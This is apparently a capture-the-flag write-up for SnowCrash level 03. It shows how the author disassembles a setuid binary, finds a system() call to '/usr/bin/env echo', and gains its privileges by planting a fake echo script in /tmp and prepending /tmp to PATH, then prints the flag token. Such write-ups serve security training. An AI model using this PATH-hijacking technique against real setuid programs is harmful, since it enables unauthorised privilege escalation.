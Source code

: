 Level 03
========

*	We spawn with a `level03` file in root repository
*	No extension so I try to execute it and it prints 'Exploit me'
*	Then I try to _cat_ the file but its unreadable since its an executable
*	Using `file` command I saw that I should be able to get the asm code:
	```console
	level03@SnowCrash:~$ file level03 
	level03: setuid setgid ELF 32-bit LSB executable...
	```
*	I wanted to get a good look at the file so I used scp to get it on my machine and then:
	```console
	root@DESKTOP-69N2SL4:~# objdump -M Intel -d level03
	```
*	Code was still kinda bad so I did a little script to make it cleaner:
	```console
	root@DESKTOP-69N2SL4:~# sh cutlines.sh
	```
*   We can see many calls but one of them is a system one :
	```assembly
	...
	call   80483b0 <system@plt>
	...
	```
*   So when we look into it on `gdb`
	```
	(gdb) x/s 0x80485e0
	0x80485e0:       "/usr/bin/env echo Exploit me"
	```
*   It seems like `echo` is vulnerable to manipulation since it's called using `/usr/bin/env` which makes the computer use the first binary found in `PATH`
*   So we should be able to create a script called echo to get the flag for us !
	```console
	level03@SnowCrash:~$ echo 'getflag' > /tmp/echo`
	level03@SnowCrash:~$ export PATH=/tmp:$PATH
	level03@SnowCrash:~$ ./level03
	Exploit me
	```
*   DOESN'T WORK ! WHY ? (Well I forgot a little something)
	```console
	level03@SnowCrash:~$ chmod +x /tmp/echo
	level03@SnowCrash:~$ ./level03
	Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
	```